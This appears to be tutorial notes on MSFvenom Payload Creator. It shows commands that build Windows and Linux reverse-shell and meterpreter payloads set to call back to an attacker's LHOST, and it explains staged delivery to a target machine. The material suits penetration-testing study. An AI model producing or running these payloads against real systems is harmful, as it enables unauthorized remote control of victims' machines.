 # MSFvenom payload creator

## Examples

### Drop cmd windows

A classic reverse shell payload (generating a payload with a `cmd` as the preferred shell for
Windows, setting the LHOST to the IP retrieved from the eth0 Ethernet interface of the Kali machine):

    $ msfpc cmd windows eth0
    
Two files are created, an executable payload by name of `windows-shell-staged-reverse-tcp-443.exe`, and a 
resource file named `windows-shell-staged-reverse-tcp-443-exe.rc`, useful for automating repetitive tasks in 
Metasploit. Resource scripts can chain series of Metasploit console commands and directly embed Ruby to do 
things such as call APIs, interact with objects in the database, and iterate actions.

### Drop msf windows

    $ msfpc msf windows eth0

The payload is now set to a `windows/meterpreter/reverse_tcp`. 
The associated resource file can be executed with:

    msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-443-exe.rc'

When the payload is executed, the stager will request for other parts of the payload to be
sent over to the target server. These parts of the payload will be sent by payload handler
and the complete staged payload is delivered to the victim machine.

### Meterpreter

A staged meterpreter reverse shell for a 64bit Linux target:

    msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<IP address attack machine> LPORT=<port-number>

## Notes

    $ msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>)
    (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>)
    (<VERBOSE>)

* TYPE is the `-f` switch in msfvenom
* DOMAIN/IP is the LHOST option
* PORT is the LPORT option
* CMD/MSF is the type of shell dropped once the payload is executed on the target system.
* BATCH/LOOP to generate multiple payloads (multiple OS platforms) with a single command.

### Meterpreter

Meterpreter shells are completely stable, making them a very good thing when working with Windows targets. They 
also have a lot of inbuilt functionality, such as file uploads and downloads. If we want to use any of Metasploit's 
post-exploitation tools then we need to use a meterpreter shell.

The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain 
certification examinations, so it is a good idea to learn alternative methodologies just for that.

## Tools

MSFvenom Payload Creator is preinstalled in Kali. On other *nix, to install it:

    git clone https://github.com/g0tmi1k/mpc

Set execute permission on the `msfpc.sh` file:

    cd mpc/
    chmod +x msfpc.sh

Start her up with:

    ./msfpc.sh